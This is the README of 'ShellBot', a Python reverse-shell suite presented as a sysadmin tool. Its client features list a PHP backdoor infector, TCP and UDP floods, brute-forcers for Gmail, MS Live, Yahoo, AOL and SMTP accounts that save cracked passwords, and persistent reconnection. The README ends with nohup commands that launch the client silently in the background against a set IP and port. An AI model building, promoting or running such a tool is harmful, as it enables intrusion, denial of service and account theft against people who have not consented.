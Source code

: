 # ShellBot

##### An advanced reverse shell written in Python3.

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a connection is achieved. All errors are handled internally and in case of a crash, the program automatically restarts.

---

#### Features:

##### Server:
1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best security, but at-least it is better than nothing. Will be improved on in future revisions.
1. Kicks the Controller after 5 mins. (As the Server only accepts 1 controller at a time). *TODO: Make it 5 minutes after inactivity.*

##### Client:
1. Infected PHP Backdooring Function. <i>(Linux Only)</i>
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround Gmail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer. If found, the password will be saved as "password.txt" on the client.
1. OTA Updating.
1. Hardened Shell: Handles No Output, Wrong, Interactive and Infinite commands will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller. 

##### Controller:
1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other interactive shell, it is advised to start the client in another process. This can be done in Linux with `nohup`.

###### Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```